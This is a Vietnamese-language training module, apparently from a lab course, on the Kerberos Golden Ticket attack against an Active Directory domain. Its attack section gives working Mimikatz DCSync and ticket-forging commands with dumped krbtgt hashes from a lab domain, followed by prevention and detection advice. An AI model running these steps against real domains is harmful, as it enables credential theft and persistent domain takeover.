








# Golden Ticket


## Description

`Kerberos Golden Ticket` là một cuộc tấn công trong đó kẻ tấn công có thể tạo/sinh ra ticket cho bất kỳ user nào trong Domain, do đó trên thực tế hoạt động như một Domain Controller.

Khi một Domain được tạo ra, tài khoản user duy nhất `krbtgt` được tạo mặc định; `krbtgt` là một tài khoản bị vô hiệu hoá (disabled), không thể xoá, đổi tên hay kích hoạt. Dịch vụ KDC của Domain Controller sẽ dùng mật khẩu của `krbtgt` để suy ra (derive) một key dùng để ký (sign) tất cả Kerberos ticket. Hash của mật khẩu này là object được tin cậy nhất trong toàn bộ Domain, bởi vì nó chính là cách các object đảm bảo rằng Kerberos ticket được phát hành bởi Domain của môi trường.

Do đó, `any user` (bất kỳ user nào) sở hữu hash mật khẩu của `krbtgt` đều có thể tạo ra Kerberos TGT hợp lệ. Vì `krbtgt` ký chúng, nên các TGT bị giả mạo (forged) vẫn được coi là ticket hợp lệ trong môi trường. Trước đây, thậm chí còn có thể tạo TGT cho những user không tồn tại và gán bất kỳ quyền nào cho tài khoản của chúng. Vì hash mật khẩu của `krbtgt` ký các ticket này, nên toàn bộ domain tin tưởng chúng một cách mù quáng, hành xử như thể (các) user đó thực sự tồn tại và sở hữu các quyền được ghi trong ticket.

Cuộc tấn công `Golden Ticket` cho phép ta leo thang quyền từ bất kỳ child domain nào lên parent domain trong cùng một forest. Do đó, ta có thể leo thang lên production domain từ bất kỳ test domain nào mà ta có, bởi vì domain `not` (không) phải là một ranh giới bảo mật (security boundary).

Cuộc tấn công này cung cấp phương tiện để duy trì truy cập (persistence) ở mức cao trong domain. Nó xảy ra sau khi kẻ tấn công đã giành được quyền Domain Admin (hoặc tương tự).

---

## Attack

Để thực hiện cuộc tấn công `Golden Ticket`, ta có thể dùng `Mimikatz` với các tham số sau:

- `/domain`: Tên của domain.
- `/sid`: Giá trị SID của domain.
- `/rc4`: Hash mật khẩu của `krbtgt`.
- `/user`: Username mà `Mimikatz` sẽ phát hành ticket cho (Windows 2019 chặn ticket nếu chúng dành cho user không tồn tại.)
- `/id`: Relative ID (phần cuối của `SID`) của user mà `Mimikatz` sẽ phát hành ticket cho.

Ngoài ra, kẻ tấn công cao cấp thường sẽ chỉ định giá trị cho các tham số `/renewmax` và `/endin`, vì nếu không, `Mimikatz` sẽ sinh ra (các) ticket có vòng đời (lifetime) 10 năm, khiến chúng rất dễ bị EDR phát hiện:

- `/renewmax`: Số ngày tối đa mà ticket có thể được gia hạn (renew).
- `/endin`: Thời điểm hết hạn (end-of-life) của ticket.

Trước tiên, ta cần lấy hash mật khẩu của `krbtgt` và giá trị `SID` của Domain. Ta có thể dùng `DCSync` với tài khoản của Rocky từ cuộc tấn công trước đó để lấy hash:

```cmd-session
C:\WINDOWS\system32>cd ../../../

C:\>cd Mimikatz

C:\Mimikatz>mimikatz.exe

  .#####.   mimikatz 2.2.0 (x64) #19041 Aug 10 2021 17:19:53
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > https://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > https://pingcastle.com / https://mysmartlogon.com ***/

mimikatz # lsadump::dcsync /domain:eagle.local /user:krbtgt
[DC] 'eagle.local' will be the domain
[DC] 'DC1.eagle.local' will be the DC server
[DC] 'krbtgt' will be the user account
[rpc] Service  : ldap
[rpc] AuthnSvc : GSS_NEGOTIATE (9)

Object RDN           : krbtgt

** SAM ACCOUNT **

SAM Username         : krbtgt
Account Type         : 30000000 ( USER_OBJECT )
User Account Control : 00000202 ( ACCOUNTDISABLE NORMAL_ACCOUNT )
Account expiration   :
Password last change : 07/08/2022 11.26.54
Object Security ID   : S-1-5-21-1518138621-4282902758-752445584-502
Object Relative ID   : 502

Credentials:
  Hash NTLM: db0d0630064747072a7da3f7c3b4069e
    ntlm- 0: db0d0630064747072a7da3f7c3b4069e
    lm  - 0: f298134aa1b3627f4b162df101be7ef9

Supplemental Credentials:
* Primary:NTLM-Strong-NTOWF *
    Random Value : b21cfadaca7a3ab774f0b4aea0d7797f

* Primary:Kerberos-Newer-Keys *
    Default Salt : EAGLE.LOCALkrbtgt
    Default Iterations : 4096
    Credentials
      aes256_hmac       (4096) : 1335dd3a999cacbae9164555c30f71c568fbaf9c3aa83c4563d25363523d1efc
      aes128_hmac       (4096) : 8ca6bbd37b3bfb692a3cfaf68c579e64
      des_cbc_md5       (4096) : 580229010b15b52f

* Primary:Kerberos *
    Default Salt : EAGLE.LOCALkrbtgt
    Credentials
      des_cbc_md5       : 580229010b15b52f

* Packages *
    NTLM-Strong-NTOWF

* Primary:WDigest *
    01  b4799f361e20c69c6fc83b9253553f3f
    02  510680d277587431b476c35e5f56e6b6
    03  7f55d426cc922e24269610612c9205aa
    04  b4799f361e20c69c6fc83b9253553f3f
    05  510680d277587431b476c35e5f56e6b6
    06  5fe31b1339791ab90043dbcbdf2fba02
    07  b4799f361e20c69c6fc83b9253553f3f
    08  7e08c14bc481e738910ba4d43b96803b
    09  7e08c14bc481e738910ba4d43b96803b
    10  b06fca48286ef6b1f6fb05f08248e6d7
    11  20f1565a063bb0d0ef7c819fa52f4fae
    12  7e08c14bc481e738910ba4d43b96803b
    13  b5181b744e0e9f7cc03435c069003e96
    14  20f1565a063bb0d0ef7c819fa52f4fae
    15  1aef9b5b268b8922a1e5cc11ed0c53f6
    16  1aef9b5b268b8922a1e5cc11ed0c53f6
    17  cd03f233b0aa1b39689e60dd4dbf6832
    18  ab6be1b7fd2ce7d8267943c464ee0673
    19  1c3610dce7d73451d535a065fc7cc730
    20  aeb364654402f52deb0b09f7e3fad531
    21  c177101f066186f80a5c3c97069ef845
    22  c177101f066186f80a5c3c97069ef845
    23  2f61531cee8cab3bb561b1bb4699cb9b
    24  bc35f896383f7c4366a5ce5cf3339856
    25  bc35f896383f7c4366a5ce5cf3339856
    26  b554ba9e2ce654832edf7a26cc24b22d
    27  f9daef80f97eead7b10d973f31c9caf4
    28  1cf0b20c5df52489f57e295e51034e97
    29  8c6049c719db31542c759b59bc671b9c
```



Ta sẽ dùng hàm `Get-DomainSID` từ [PowerView](https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1) để lấy giá trị SID của Domain:

```powershell-session
PS C:\Users\bob\Downloads> powershell -exec bypass

Windows PowerShell
Copyright (C) Microsoft Corporation. All rights reserved.

Try the new cross-platform PowerShell https://aka.ms/pscore6

PS C:\Users\bob\Downloads> . .\PowerView.ps1
PS C:\Users\bob\Downloads> Get-DomainSID
S-1-5-21-1518138621-4282902758-752445584
```



Bây giờ, với tất cả thông tin cần thiết trong tay, ta có thể dùng `Mimikatz` để tạo một ticket cho tài khoản `Administrator`. Tham số `/ptt` khiến `Mimikatz` [pass the ticket vào session hiện tại](https://adsecurity.org/?page_id=1821#KERBEROSPTT):

```cmd-session
C:\Mimikatz>mimikatz.exe

  .#####.   mimikatz 2.2.0 (x64) #19041 Aug 10 2021 17:19:53
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > https://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > https://pingcastle.com / https://mysmartlogon.com ***/

mimikatz # kerberos::golden /domain:eagle.local /sid:S-1-5-21-1518138621-4282902758-752445584 /rc4:db0d0630064747072a7da3f7c3b4069e /user:Administrator /id:500 /renewmax:7 /endin:8 /ptt

User      : Administrator
Domain    : eagle.local (EAGLE)
SID       : S-1-5-21-1518138621-4282902758-752445584
User Id   : 500
Groups Id : *513 512 520 518 519
ServiceKey: db0d0630064747072a7da3f7c3b4069e - rc4_hmac_nt
Lifetime  : 13/10/2022 06.28.43 ; 13/10/2022 06.36.43 ; 13/10/2022 06.35.43
-> Ticket : ** Pass The Ticket **

 * PAC generated
 * PAC signed
 * EncTicketPart generated
 * EncTicketPart encrypted
 * KrbCred generated

Golden ticket for 'Administrator @ eagle.local' successfully submitted for current session
```



Kết quả cho thấy `Mimikatz` đã tiêm (inject) ticket vào session hiện tại, và ta có thể xác minh điều đó bằng cách chạy lệnh `klist` (sau khi thoát khỏi `Mimikatz`):

```cmd-session
mimikatz # exit

Bye!

C:\Mimikatz>klist

Current LogonId is 0:0x9cbd6

Cached Tickets: (1)

#0>     Client: Administrator @ eagle.local
        Server: krbtgt/eagle.local @ eagle.local
        KerbTicket Encryption Type: RSADSI RC4-HMAC(NT)
        Ticket Flags 0x40e00000 -> forwardable renewable initial pre_authent
        Start Time: 10/13/2022 13/10/2022 06.28.43 (local)
        End Time:   10/13/2022 13/10/2022 06.36.43 (local)
        Renew Time: 10/13/2022 13/10/2022 06.35.43 (local)
        Session Key Type: RSADSI RC4-HMAC(NT)
        Cache Flags: 0x1 -> PRIMARY
        Kdc Called:
```



Để xác minh rằng ticket đang hoạt động, ta có thể dùng nó để liệt kê nội dung của share `C$` trên `DC1`:

```cmd-session
C:\Mimikatz>dir \\dc1\c$

 Volume in drive \\dc1\c$ has no label.
 Volume Serial Number is 2CD0-9665

 Directory of \\dc1\c$

15/10/2022  08.30    <DIR>          DFSReports
13/10/2022  13.23    <DIR>          Mimikatz
01/09/2022  11.49    <DIR>          PerfLogs
28/11/2022  01.59    <DIR>          Program Files
01/09/2022  04.02    <DIR>          Program Files (x86)
13/12/2022  02.22    <DIR>          scripts
07/08/2022  11.31    <DIR>          Users
28/11/2022  02.27    <DIR>          Windows
               0 File(s)              0 bytes
               8 Dir(s)  44.947.984.384 bytes free
```



---

## Prevention

Ngăn chặn việc tạo ra các ticket giả mạo là việc khó, vì `KDC` sinh ra các ticket hợp lệ bằng đúng quy trình đó. Do đó, một khi kẻ tấn công đã có tất cả thông tin cần thiết, chúng có thể giả mạo một ticket. Tuy nhiên, vẫn có một vài điều ta có thể và nên làm:

- Chặn user có quyền cao (privileged user) xác thực vào bất kỳ thiết bị nào.
- Định kỳ reset mật khẩu của tài khoản `krbtgt`; việc giữ bí mật giá trị hash này là tối quan trọng đối với Active Directory. Khi reset mật khẩu của `krbtgt` (bất kể độ mạnh của mật khẩu), nó sẽ luôn được ghi đè bằng một mật khẩu mới được sinh ngẫu nhiên và an toàn về mặt mật mã (cryptographically secure). Việc sử dụng script của Microsoft để đổi mật khẩu của `krbtgt` [KrbtgtKeys.ps1](https://github.com/microsoft/New-KrbtgtKeys.ps1) được khuyến nghị mạnh mẽ, vì nó có chế độ audit để kiểm tra domain nhằm phòng ngừa các tác động khi đổi mật khẩu. Nó cũng buộc DC replication trên toàn cầu để tất cả Domain Controller đồng bộ giá trị mới ngay lập tức, giảm thiểu khả năng gián đoạn hoạt động kinh doanh.
- Thực thi lọc (filtering) `SIDHistory` giữa các domain trong forest để ngăn việc leo thang từ child domain lên parent domain (vì đường leo thang liên quan đến việc lạm dụng thuộc tính `SIDHistory` bằng cách đặt nó thành giá trị của một nhóm có quyền cao, ví dụ `Enterprise Admins`). Tuy nhiên, làm điều này có thể gây ra các vấn đề tiềm ẩn khi migrate domain.

---

## Detection

Tương quan (correlate) hành vi của user là kỹ thuật tốt nhất để phát hiện việc lạm dụng các ticket giả mạo. Giả sử ta biết vị trí và thời điểm mà một user thường xuyên dùng để đăng nhập. Khi đó, sẽ dễ dàng cảnh báo (alert) về các hành vi (đáng ngờ) khác—ví dụ, hãy xét tài khoản 'Administrator' trong cuộc tấn công mô tả ở trên. Nếu một tổ chức trưởng thành sử dụng `Privileged Access Workstations` (`PAWs`), họ nên cảnh giác với bất kỳ user có quyền cao nào không xác thực từ những máy đó, chủ động giám sát các event có ID `4624` và `4625` (logon thành công và thất bại).

Domain Controller sẽ không ghi log event khi kẻ tấn công giả mạo một `Golden Ticket` từ một máy bị xâm nhập. Tuy nhiên, khi chúng cố truy cập (các) hệ thống khác, ta sẽ thấy các event logon thành công bắt nguồn từ máy bị xâm nhập:



Một điểm phát hiện khác có thể là một TGS service được yêu cầu cho một user mà trước đó không có TGT. Tuy nhiên, đây có thể là một việc nhọc nhằn do khối lượng ticket quá lớn (và nhiều yếu tố khác). Nếu ta quay lại kịch bản tấn công, bằng việc chạy `dir \\dc1\c$` ở cuối, ta đã sinh ra hai TGS ticket trên Domain Controller:

## Ticket 1:



## Ticket 2:



Khác biệt duy nhất giữa hai ticket là service. Tuy nhiên, chúng trông bình thường khi so với các event tương tự không liên quan đến `Golden Ticket`.

Nếu `SID filtering` được bật, ta sẽ nhận được alert với event ID `4675` trong quá trình leo thang cross-domain.

----

## Note

Nếu một Active Directory forest đã bị xâm nhập, ta cần reset mật khẩu của tất cả user và thu hồi (revoke) tất cả certificate, và đối với `krbtgt`, ta phải reset mật khẩu của nó hai lần (trong `every domain` — mỗi domain). Giá trị lịch sử mật khẩu (password history) của tài khoản `krbtgt` là 2. Do đó nó lưu hai mật khẩu gần nhất. Bằng việc reset mật khẩu hai lần, ta xoá sạch mọi mật khẩu cũ khỏi lịch sử, nên không còn cách nào để một DC khác replicate DC này bằng một mật khẩu cũ. Tuy nhiên, khuyến nghị là hai lần reset mật khẩu này nên cách nhau ít nhất 10 giờ (vòng đời tối đa của user ticket); nếu không, hãy chuẩn bị tinh thần là một số service sẽ hỏng nếu làm trong khoảng thời gian ngắn hơn.
